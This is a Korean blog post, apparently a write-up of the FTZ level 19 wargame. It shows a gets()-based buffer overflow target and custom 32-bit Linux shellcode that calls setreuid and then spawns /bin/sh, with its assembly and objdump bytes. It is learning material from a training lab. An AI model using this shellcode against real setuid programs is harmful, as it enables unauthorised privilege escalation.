 ```yaml
---
title: "Custom Shellcode(with. setreuid)"
tags: [shellcode]
categories: ["pwnable theory"]
---
```


표준 25byte shellcode에 기능 추가하기
-------------------------------------

1. [Problem](#개요)
2. [Solve](#문제해결)
3. [Additional](#additional)

## 개요

FTZ 19번 문제는 다음과 같이 짧은 코드로 구성되어 있었습니다.

```c
main()
{ 
  char buf[20];
  gets(buf);
  printf("%s\n",buf);
}
```

setuid를 통해 level20 계정의 권한으로 설정되어 있긴 하였지만 가장 기본적으로 사용할 수 있는 25byte shellcode를 사용하였을 때 shell이 level19의 권한으로 실행되는 것을 확인할 수 있었습니다.

별도의 함수가 존재하지 않기에 처음에는 my-pass 명령을 직접적으로 전달하도록 시도해보려고 하였으나 마땅한 방법을 찾지 못하여 setreuid 함수를 통해 level20의 권한으로 실행되도록 shellcode를 변경하였습니다.

## 문제해결

변경한 shellcode의 경우 다음과 같이 작성하였습니다.

```
section .text
        global _start

_start:
        mov bx, 0xc1c
        mov cx, 0xc1c
        mov al, 0x46
        int 0x80
        xor eax, eax 
        push eax 
        push 0x68732f2f
        push 0x6e69622f
        mov ebx, esp 
        push eax 
        push ebx 
        mov ecx, esp 
        mov edx, eax 
        mov al, 0xb 
        int 0x80
```

FTZ의 환경인 32bit에 맞춰서 제작하였으며 시작 부분에서 첫 번째 `int 0x80` 까지가 추가한 부분입니다. 처음에는 setuid 함수를 사용한 코드를 참조하여 작성하였으나 [링크](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)의 call table에서 setuid를 찾을 수 없어 유사한 setreuid를 사용하였습니다.

setreuid를 호출할 때 ebx는 ruid, ecx는 euid의 값을 지정해주면 된다는 것도 call table 링크에서 확인할 수 있었습니다. 각각 level20의 uid인 3200을 16진수로 표기한 0xclc 값을 할당해주었습니다.

## Additional

처음에는 ebx, ecx에 값을 넣어주었는데 컴파일을 완료한 후 objdump로 확인했을 때 NULL 값이 포함되어 있길래 bx, cx로 바꿔 해결하였습니다.

위 사항을 수정 후에 최종적으로 아래와 같이 완성되었습니다.

```
08048060 <_start>:
 8048060:	66 bb 1c 0c          	mov    $0xc1c,%bx
 8048064:	66 b9 1c 0c          	mov    $0xc1c,%cx
 8048068:	b0 46                	mov    $0x46,%al
 804806a:	cd 80                	int    $0x80
 804806c:	31 c0                	xor    %eax,%eax
 804806e:	50                   	push   %eax
 804806f:	68 2f 2f 73 68       	push   $0x68732f2f
 8048074:	68 2f 62 69 6e       	push   $0x6e69622f
 8048079:	89 e3                	mov    %esp,%ebx
 804807b:	50                   	push   %eax
 804807c:	53                   	push   %ebx
 804807d:	89 e1                	mov    %esp,%ecx
 804807f:	89 c2                	mov    %eax,%edx
 8048081:	b0 0b                	mov    $0xb,%al
 8048083:	cd 80                	int    $0x80
```
